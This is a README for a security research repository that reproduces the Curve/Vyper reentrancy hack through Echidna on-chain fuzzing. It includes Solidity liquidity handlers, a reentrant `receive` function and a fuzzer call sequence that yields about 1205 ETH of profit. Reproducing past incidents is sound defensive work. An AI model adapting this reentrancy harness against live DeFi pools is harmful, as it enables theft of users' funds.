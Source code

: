 # Curve Hack - Fuzzing Reproduction

## Description
This repository contains a reproduction of one of the Curve reentrancy hacks caused by a compiler issue in Vyper. Assets stolen from the Curve pools exceeded $41 million. For more details, refer to the [Vyper compiler saga](https://medium.com/rektify-ai/the-vyper-compiler-saga-unraveling-the-reentrancy-bug-that-shook-defi-86ade6c54265) on Rekt.

## Methodology
To reproduce the bug, we utilize Echidna's on-chain fuzzing. 

We define a single invariant to check if an attacker can increase their ETH balance.
```solidity
function testProfit() public {
    uint256 balance = address(this).balance;
    gte(initialBalance, balance, "Profit test");
}
```

We then add handlers to add and remove liquidity to the Curve pool, focusing solely on ETH for simplicity. By clamping, we ensure the fuzzer only adds or removes an amount within the attacker's current balance.
```solidity
    function addLiquidity(uint128 _amount) public {
        _amount = uint128(clampBetween(_amount, 0, address(this).balance));

        uint256[2] memory amount;
        amount[0] = _amount;
        amount[1] = 0;

        pool.add_liquidity{value: _amount}(amount, 0);
    }

    function removeLiquidity(uint128 _amount) public {
        _amount = uint128(
            clampBetween(_amount, 0, pool.balanceOf(address(this)))
        );

        uint256[2] memory amount;
        amount[0] = 0;
        amount[1] = 0;

        pool.remove_liquidity(_amount, amount);
    }
```

Given the hack involves reentrancy, we implement a rudimentary reentrancy handler in the `receive` function.
```solidity
    receive() external payable {
        if (reentrancyEnabled) {
            uint256 functionId = (reentrancyFunction % 2 == 1) ? 0 : 1;

            if (reentrancyFunction == 0) {
                addLiquidity(reentrancyAmount);
            } else if (reentrancyFunction == 1) {
                removeLiquidity(reentrancyAmount);
            }
        }
    }
```

The behavior of this handler is controlled by global variables, which are set by the fuzzer.
```solidity
    function setReentrancyEnabled(bool _reentrancyEnabled) public {
        reentrancyEnabled = _reentrancyEnabled;
    }

    function setReentrancyFunction(uint8 _reentrancyFunction) public {
        reentrancyFunction = _reentrancyFunction;
    }

    function setReentrancyAmount(uint128 _reentrancyAmount) public {
        reentrancyAmount = _reentrancyAmount;
    }
```

Echidna typically detects the bug within 5 minutes using a single worker. The sequence leading to the hacks can be seen below.
```
testProfit(): failed!💥
  Call sequence, shrinking 1739/5000:
    Fuzz.setReentrancyAmount(62297794394773161987899947455086967966)
    Fuzz.addLiquidity(287947091533324425929789050717863786957)
    Fuzz.removeLiquidity(209948338645151591393209938770631982993)
    Fuzz.addLiquidity(58576701019271218016466182754478192010)
    Fuzz.removeLiquidity(967)
    Fuzz.setReentrancyEnabled(false)
    Fuzz.removeLiquidity(247696123990480820083721037276151777885)
    Fuzz.testProfit()

emit AssertGteFail(«Invalid: 1000000000000000000000000<1001205683176915736170634 failed, reason: Profit test»)
```

Total profit: `1205683176915736170634` (1205 ETH).

## Future Research
The current Proof of Concept is deliberately kept simple to optimize for fuzzing. Enhancing it to resemble a more comprehensive fuzzing suite could include:
-  Adding a handler for `exchange`
- Support for adding liquidity to all tokens in the pool
- Simulating multiple actors

While these additions would increase the complexity and slow down the fuzzing process due to a larger search space, they would still effectively reproduce the hack.

## Links
- https://medium.com/rektify-ai/the-vyper-compiler-saga-unraveling-the-reentrancy-bug-that-shook-defi-86ade6c54265
- https://hackmd.io/@LlamaRisk/BJzSKHNjn
- https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/2023-07/Curve_exp01.sol

